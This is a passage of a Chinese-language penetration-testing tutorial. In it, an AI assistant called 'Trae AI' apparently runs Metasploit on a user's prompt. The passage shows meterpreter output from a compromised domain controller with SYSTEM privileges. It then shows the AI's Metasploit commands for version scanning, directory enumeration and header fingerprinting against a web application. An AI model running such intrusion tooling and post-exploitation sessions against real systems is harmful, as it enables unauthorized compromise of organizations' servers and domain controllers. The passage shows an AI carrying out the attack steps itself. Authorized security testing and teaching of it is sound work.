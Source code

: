 **最終成功：**
```
meterpreter > sysinfo
Computer        : DC01
OS              : Windows Server 2016 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : COMPANY
Logged On Users : 5
Meterpreter     : x64/windows

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## 場景二：Web 應用滲透

### 目標環境
- **目標**：https://webapp.company.com
- **應用類型**：Java Web 應用
- **測試目標**：獲取服務器控制權限

### 階段 1：Web 應用偵察

**用戶提問：**
```
對目標 Web 應用進行偵察和信息收集
```

**Trae AI 執行流程：**
```
# 1. HTTP 服務掃描
use auxiliary/scanner/http/http_version
set RHOSTS webapp.company.com
set RPORT 443
set SSL true
run

# 2. 目錄和文件枚舉
use auxiliary/scanner/http/dir_scanner
set RHOSTS webapp.company.com
set RPORT 443
set SSL true
set DICTIONARY /usr/share/metasploit-framework/data/wordlists/directory.txt
run

# 3. 技術棧識別
use auxiliary/scanner/http/http_header
set RHOSTS webapp.company.com
set RPORT 443
set SSL true
run
```

